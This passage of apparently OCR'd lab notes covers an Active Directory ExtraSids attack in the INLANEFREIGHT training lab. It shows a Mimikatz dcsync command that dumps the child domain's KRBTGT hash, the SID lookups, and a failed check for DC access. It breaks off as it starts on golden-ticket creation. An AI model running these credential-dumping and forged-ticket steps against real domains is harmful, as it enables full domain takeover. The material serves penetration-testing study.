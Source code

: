 
2.4 Hight all prerequisites for creating gold tickets:

&lt;aside&gt; 💡 Run Mimikatz to retrieve the KRBTGT hash for the child domain:

```powershell
mimikatz # lsadump::dcsync /user:LOGISTICS\\\\krbtgt
[DC] 'LOGISTICS.INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'LOGISTICS\\\\krbtgt' will be the user account
Credentials:
  Hash NTLM: 9d765b482771505cbe97411065964d5f
    ntlm- 0: 9d765b482771505cbe97411065964d5f
    lm  - 0: 69df324191d4a80f0ed100c10f20561e
```

&lt;/aside&gt;

&lt;aside&gt; 💡 Retrieve the distinguished name and object SID of the Enterprise Admins group for the parent domain:

```powershell
distinguishedname                                       objectsid
-----------------                                       ---------
CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519

```

&lt;/aside&gt;

&lt;aside&gt; 💡 Get the SID for the child domain:

```powershell
PS C:\\\\Tools> Get-DomainSID
S-1-5-21-2806153819-209893948-922872689

```

&lt;/aside&gt;

2.5 Confirming no access to domain controller before retrieving gold tickets

```powershell
PS C:\\Tools> ls \\\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\\C$
ls : Access is denied
At line:1 char:1
+ ls \\\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\\C$
```

Checkpoint 2: What are the steps to obtain the KRBTGT account's NT hash, child domain SID, and Enterprise Admins group SID using Mimikatz and PowerView?

Section 3: Ex-ecuting the ExtraSids Attack

3.1 Creating a Golden Ticket with Mimikatz

* Step-by-Step:
    
    1. Open a command prompt and run `mimikatz.exe`.
        